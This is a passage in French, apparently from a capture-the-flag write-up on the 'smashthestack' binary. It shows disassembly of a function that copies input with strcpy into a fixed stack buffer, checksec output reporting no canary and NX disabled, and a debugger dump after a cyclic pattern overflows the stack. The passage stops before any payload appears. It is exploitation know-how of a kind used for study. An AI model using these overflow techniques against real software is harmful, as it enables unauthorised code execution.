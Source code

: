 ```nasm
dbg.vulncode (int stack1, char *reply);
; var char [720] result @ stack - 0x2dc
; var int32_t var_8h @ stack - 0x8
; arg int stack1 @ stack + 0x4
; arg char *reply @ stack + 0x8
0x00001259      push    ebp        ; smashthestack.c:11 ; int vulncode(int stack1,char * reply);
0x0000125a      mov     ebp, esp
0x0000125c      push    ebx
0x0000125d      sub     esp, 0x2d4
0x00001263      call    __x86.get_pc_thunk.ax ; sym.__x86.get_pc_thunk.ax
0x00001268      add     eax, 0x2d98
0x0000126d      sub     esp, 8     ; smashthestack.c:13
0x00001270      push    dword [reply] ; const char *src
0x00001273      lea     edx, [result[0]]
0x00001279      push    edx        ; char *dest
0x0000127a      mov     ebx, eax
0x0000127c      call    strcpy     ; sym.imp.strcpy ; char *strcpy(char *dest, const char *src)
0x00001281      add     esp, 0x10
0x00001284      mov     eax, 0     ; smashthestack.c:14
0x00001289      mov     ebx, dword [var_8h] ; smashthestack.c:15
0x0000128c      leave
0x0000128d      ret
```

On peut voir que 724 octets sont réservés sur la stack frame pour les variables locales.

Le binaire n'a ni stack protector ni les canary :

```console
$ checksec --file smashthestack 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   PIE enabled     No RPATH   No RUNPATH   /tmp/smashthestack
```

J'ai balancé sur chaine cyclique sur l'exécutable que je déboguais en local :

```console
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x68616167 ('gaah')
ECX: 0xffffcb60 --> 0x1 
EDX: 0xffffc870 --> 0x63610001 
ESI: 0x56556400 (<__libc_csu_init>:     push   ebp)
EDI: 0xf7ffcb80 --> 0x0 
EBP: 0x68616168 ('haah')
ESP: 0xffffc74c ("iaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahuaahvaahwaahxaahyaahzaaibaaicaaidaaieaaifaaigaaihaaiiaaijaaikaailaaimaainaaioaaipaaiqaairaaisaaitaaiuaaivaaiwaaixaaiyaaizaajbaajcaajdaajeaajfaajgaajhaaj"...)
EIP: 0x5655628d (<vulncode+52>: ret)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x56556284 <vulncode+43>:    mov    eax,0x0
   0x56556289 <vulncode+48>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x5655628c <vulncode+51>:    leave  
=> 0x5655628d <vulncode+52>:    ret    
   0x5655628e <main>:   lea    ecx,[esp+0x4]
   0x56556292 <main+4>: and    esp,0xfffffff0
   0x56556295 <main+7>: push   DWORD PTR [ecx-0x4]
   0x56556298 <main+10>:        push   ebp
[------------------------------------stack-------------------------------------]
0000| 0xffffc74c ("iaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahuaahvaahwaahxaahyaahzaaibaaicaaidaaieaaifaaigaaihaaiiaaijaaikaailaaimaainaaioaaipaaiqaairaaisaaitaaiuaaivaaiwaaixaaiyaaizaajbaajcaajdaajeaajfaajgaajhaaj"...)
```
